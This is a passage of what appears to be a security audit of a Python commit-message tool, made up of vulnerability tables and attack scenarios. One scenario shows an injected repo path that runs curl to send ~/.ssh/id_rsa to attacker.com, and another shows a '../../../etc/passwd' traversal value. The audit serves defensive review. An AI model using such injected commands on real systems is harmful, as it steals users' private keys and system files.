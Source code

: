 | Function | Line | Vulnerability | Risk | Description |
|----------|------|---------------|------|-------------|
| `__init__()` | 106-108 | Path Traversal | 🔴 HIGH | Config file path not validated |
| `DEFAULT_CONFIG` | 24-98 | Insecure Defaults | 🟢 LOW | Missing security configurations |

### 📁 CLI Module (`cli.py`) - 2 Vulnerabilities

| Function | Line | Vulnerability | Risk | Description |
|----------|------|---------------|------|-------------|
| `config()` | 186-189 | API Key Exposure | 🔴 HIGH | Partial API key displayed in output |
| `handle_errors()` | 52-56 | Info Disclosure | 🟡 MEDIUM | Stack traces exposed to users |

### 📁 Git Hook Module (`git_hook.py`) - 1 Vulnerability

| Function | Line | Vulnerability | Risk | Description |
|----------|------|---------------|------|-------------|
| `install_hook()` | 101 | File Permissions | 🟡 MEDIUM | Overly permissive file permissions |

### 📁 API Clients Module (`api_clients.py`) - 1 Vulnerability

| Function | Line | Vulnerability | Risk | Description |
|----------|------|---------------|------|-------------|
| `_make_request()` | 83-118 | Network Security | 🟡 MEDIUM | No timeout, SSL verification issues |

---

## 🎯 Attack Vector Analysis

### 🔴 High-Risk Attack Vectors

#### 1. Command Injection Attack
```python
# Attack scenario
malicious_repo = "/tmp/repo; curl attacker.com/steal?data=$(cat ~/.ssh/id_rsa)"
config = Config(repo_root=malicious_repo)
generator = CommitGenerator(config)
# Result: SSH keys stolen
```

#### 2. Path Traversal Attack
```python
# Attack scenario
malicious_config = "../../../etc/passwd"
# Result: System files accessible
```

#### 3. API Key Theft
```bash
# Attack scenario
smart-commits-ai config --show | grep "API key"
# Result: Partial API key exposed, full key in logs
```
